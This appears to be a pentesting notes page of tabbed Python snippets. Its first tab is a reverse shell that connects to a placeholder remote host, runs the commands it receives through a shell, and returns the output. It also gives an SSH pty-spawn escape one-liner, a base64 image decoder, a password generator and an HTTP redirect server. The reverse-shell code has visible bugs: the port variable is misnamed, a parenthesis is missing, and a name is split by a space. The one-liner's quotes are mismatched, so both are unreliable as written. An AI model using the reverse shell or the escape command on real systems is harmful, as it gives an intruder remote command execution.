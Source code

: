 # Python

{% tabs %}
{% tab title="Simple Reverse connection" %}
```
import socket
import subprocess

REMOTE_HOST = '10.X.X.X'
REMOTE_HOST = 4231

client = socket.socket()
print ("Starting Connection..."

client.connect((REMOTE_HOST, REMOTE _PORT))
print ("Connected")

while True:
    print ("Command Awaiting")
    command = client.recv(1024)
    command = command.decode()
    
    op = subprocess.Popen(command, shell=True, stderr=subprocess.PIPE, stdout=subprocess.PIPE)
    
    said = op.stdout.read()
    error_said = op.stderr.read()
    print("Send Response")
    client.send (said + error_said)
    
```
{% endtab %}

{% tab title="SSH login escape" %}
```
ssh user@host "python -c \"import pty; pty.spawn('/bin/bash")\""
```
{% endtab %}

{% tab title="Base64 Web image decoder" %}
```
# Save the data value to a text file (image.txt) and run the script below to generate an image. 

#!/bin/python
import base64

file = open('image.txt', 'rb')
encoded_data = file.read()
file.close()

decoded_data = base64.b64decode((encoded_data))

# Does not have to be png format

img_file = open('image.png','wb')
img_file.write(decoded_data)
img_file.close()
```
{% endtab %}

{% tab title="Password Generator" %}
```
# Random Password generator. Insert additional characters as desired

import os

Characters = "aAbBcC3dDeEfFg9GHh2IiJjK8kLlM0m4N&nOoPpQq7RrSs1Tt#5UuVvWwXxYy6Zz"
Length = int(input("Length: "))

urandom = os.urandom(Length)
Index = ""
for i in range(Length):
    Index+=Characters[ord(os.urandom(1)) % len(Characters)]

print(Index)
```
{% endtab %}

{% tab title="Redirect.py" %}
```
#!/usr/bin/python3
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

class Redirect(BaseHTTPRequestHandler):
  def do_GET(self):
      self.send_response(302)
      self.send_header('Location', sys.argv[1])
      self.end_headers()

HTTPServer(("0.0.0.0", 80), Redirect).serve_forever()
```
{% endtab %}
{% endtabs %}
